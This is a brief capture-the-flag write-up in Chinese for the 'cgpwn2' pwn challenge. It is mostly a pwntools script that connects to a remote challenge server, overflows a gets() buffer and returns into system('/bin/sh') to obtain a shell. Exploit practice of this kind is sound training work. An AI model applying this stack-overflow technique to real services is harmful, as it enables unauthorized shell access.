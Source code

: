 # cgpwn2

文件中有system函数，需要先将'/bin/sh'字符串传入name中，然后通过get(&s)进行栈溢出运行``system(/bin/sh)``来get shell

exp:

```python
from pwn import *

#n = process('./cgpwn2')
n = remote('111.198.29.45',39885)
elf = ELF('./cgpwn2')

offset = 0x26 + 4
system_addr = elf.symbols['system']
name_addr = 0x0804A080

print(n.recvuntil('name'))
n.sendline('/bin/sh')

print(n.recvuntil('here:'))
payload = 'a' * offset + p32(system_addr) + p32(0xdeadbeef) + p32(name_addr)
n.sendline(payload)

n.interactive()

```

